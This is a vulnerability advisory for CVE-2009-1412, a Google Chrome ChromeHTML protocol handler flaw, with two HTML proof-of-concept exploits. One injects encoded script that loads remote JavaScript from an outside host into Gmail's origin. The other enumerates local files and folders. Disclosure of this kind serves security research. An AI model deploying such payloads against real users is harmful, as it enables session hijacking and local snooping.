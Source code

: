 ```yaml
---
layout: vuln
credit:
    - roi
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2009-04-23' 
alephid: ALEPH-2009000
cve: CVE-2009-1412
date: '2009-04-23'
title: 'Google Chrome ChromeHTML Protocol Handler Universal XSS'
severity: high
product:
    - Google Chrome
vulnerable: 
    - 1.0.154.55 and earlier
mitigation: 
    - Apply 1.0.154.59 or later.
references:
    - src: paper
      url: http://blog.watchfire.com/files/google-chrome-advisory.doc
    - src: 'chromium bug track: Issue 9860' 
      url: https://bugs.chromium.org/p/chromium/issues/detail?id=9860
   
---
```

A vulnerability in the ChromeHTML URL handler, allows forcing Google Chrome load arbitrary URIs when it is launched through IE. Combined with other issues, this seemingly harmless vulnerability opens the door to two major attack vectors:

* Bypass the Same Origin Policy restrictions for any site (this has the same impact as Universal XSS)
* Enumerate victim's local files and directories.

It is important to note that the way Internet Explorer processes URL protocol handlers is a known Achilles' heel and has been widely used previously to attack other various applications.

## Proof-of-Concept ##

Universal XSS:
```html

<html>
<title>Google Chrome universal XSS POC</title>
<!--[if IE]>
<p>This PoC will launch Chrome, redirect it to http://www.gmail.com and execute arbitrary JavaScirpt on that domain.</p>
<p>Launching chrome...</p>
<script> document.location = 'chromehtml:"80%20javascript:document.write(unescape(\'%3C%73%63%72%69%70%74%25%32
%30%73%72%63%3D%68%74%74%70%3A%2F%2F%62%6C%6F%67
%2E%77%61%74%63%68%66%69%72%65%2E%63%6F%6D%2F%66
%69%6C%65%73%2F%6A%73%2E%6A%73%3E%3C%2F%73%63%72
%69%70%74%3E\'))"';
</script>
<![endif]-->
<p>In order for the POC to work you need Internet Explorer 7 and Google Chrome version &lt; 1.0.154.59.</p>
</html>
```
File Enumeration:
```html
<title>Google Chrome local files and folders enumeration</title>
<!--[if IE]>
<p>This PoC will launch Chrome with four arbitrary directories and an attacker-controlled web page.<br> The web page is used to enumerate local files and folders using a known history hack</p>
<script>
    document.location = 'chromehtml:"80%20c:/exists%20c:/nonexisting%20
    c:/windows%20c:/winnt%20http://blog.watchfire.com/files/historyhack.html"';
</script>
<![endif]-->
<p>In order for the POC to work you need Internet Explorer 7 and Google Chrome version &lt; 1.0.154.59.</p>
</html>
```
